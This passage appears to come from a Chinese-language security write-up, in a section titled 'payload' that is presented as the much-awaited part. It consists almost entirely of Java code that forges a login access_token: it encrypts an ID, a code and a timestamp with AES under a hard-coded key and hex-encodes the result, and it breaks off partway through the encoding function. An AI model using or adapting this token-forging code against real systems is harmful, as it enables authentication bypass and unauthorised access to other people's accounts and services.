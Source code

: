 ## 2.4 payload

你们最期待的东西。

    
    
    import com.sun.crypto.provider.SunJCE;    
    import sun.security.provider.Sun;    
      
    import javax.crypto.\*;    
    import javax.crypto.spec.SecretKeySpec;    
    import java.security.\*;    
      
    public class userLogin {    
        public static void main(String\[\] args) {    
            String access\_token = encrypt("2ad1b008-38ed-44e4-a113-ef1ee31407c1|L68GFSAH3EBT|"\+ System.currentTimeMillis() +"|1","youkongjian");    
            System.out.print(access\_token);    
        }    
        public static String encrypt(String var0, String var1) {    
            byte\[\] var2 = null;    
      
            try {    
                KeyGenerator var3 = KeyGenerator.getInstance("AES");    
                SecureRandom var4 = SecureRandom.getInstance("SHA1PRNG");    
                var4.setSeed(var1.getBytes());    
                var3.init(128, var4);    
                SecretKey var5 = var3.generateKey();    
                byte\[\] var6 = var5.getEncoded();    
                SecretKeySpec var7 = new SecretKeySpec(var6, "AES");    
                Cipher var8 = Cipher.getInstance("AES", "SunJCE");    
                byte\[\] var9 = var0.getBytes();    
                var8.init(1, var7);    
                var2 = var8.doFinal(var9);    
            } catch (NoSuchProviderException var10) {    
                var10.printStackTrace();    
            } catch (NoSuchAlgorithmException var11) {    
                var11.printStackTrace();    
            } catch (NoSuchPaddingException var12) {    
                var12.printStackTrace();    
            } catch (InvalidKeyException var13) {    
                var13.printStackTrace();    
            } catch (IllegalBlockSizeException var14) {    
                var14.printStackTrace();    
            } catch (BadPaddingException var15) {    
                var15.printStackTrace();    
            }    
      
            return var2 == null ? "" : parseByte2HexStr(var2);    
        }    
        private static String parseByte2HexStr(byte\[\] var0) {    
            StringBuffer var1 = new StringBuffer();    
      
            for(int var2 = 0; var2 < var0.length; ++var2) {    
                String var3 = Integer.toHexString(var0\[var2\] & 255);    
                if (var3.length() == 1) {    
                    var3 = '0' \+ var3;    
                }    
      